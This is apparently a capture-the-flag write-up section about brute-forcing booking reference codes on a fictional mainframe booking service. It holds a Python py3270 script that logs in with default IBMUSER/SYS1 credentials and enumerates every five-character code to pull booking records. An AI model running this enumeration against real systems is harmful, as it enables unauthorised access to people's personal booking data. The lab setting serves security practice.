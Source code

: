 ## 2_seatheworld_bookings_bruteforcer
After attempting to find the booking reference codes / names on the system without luck, we attempt to bruteforce the reference codes for fun (without luck of course) with [py3270](https://pypi.org/project/py3270/).

![ec55a1a099714a3d82164be6cb3cfc3d.gif](./screenshots/ec55a1a099714a3d82164be6cb3cfc3d.gif)

#### bruteforce_booking_reference.py
```python
import time
import string
import itertools
from py3270 import Emulator

BOOKING_NUMBER_CHARSET = string.ascii_uppercase + string.digits
em = Emulator(visible=True)
#em.connect('nusse.seatheworld.tld')
em.connect('127.0.0.1', 10023)

def login(username, password):
    em.send_string("LOGON " + username)
    em.send_enter()
    em.send_string(password)
    em.send_enter()
    em.send_string("LOAD IBMUSER.SEATW.LOAD(BOOKING)")
    em.send_enter()
    em.send_enter()

def check_booking_number(booking_number):
    em.send_string("1")
    em.send_enter()
    em.send_string(booking_number)
    em.send_enter()
    c = em.exec_command("Ascii")
    output = "\n".join([line.decode() for line in c.data])
    if "FOUND 0 RECORDS" in output:
        return False
    print("=" * 64)
    return output

login("IBMUSER", "SYS1")

# Make sure it works first
print("Checking if script works by looking for booking number: WJWQX")
result = check_booking_number("WJWQX")
if not result:
    print("ERROR: Booking number was not found...")
    exit(0)

print("OK, starting brute force!")
print()


i = 0
booking_numbers = list(itertools.product(BOOKING_NUMBER_CHARSET, repeat=5))
length = len(booking_numbers)

for i, booking_number in enumerate(booking_numbers):
    booking_number = "".join(booking_number)
    print("[{}/{}] Checking: {}".format(i + 1, length, booking_number))
    result = check_booking_number(booking_number)
    if result:
        print()
        print()
        print("Found valid booking number:", booking_number)
        print(result)
        print("=" * 32)

em.terminate()
print(em)
time.sleep(10)
em.terminate()
```
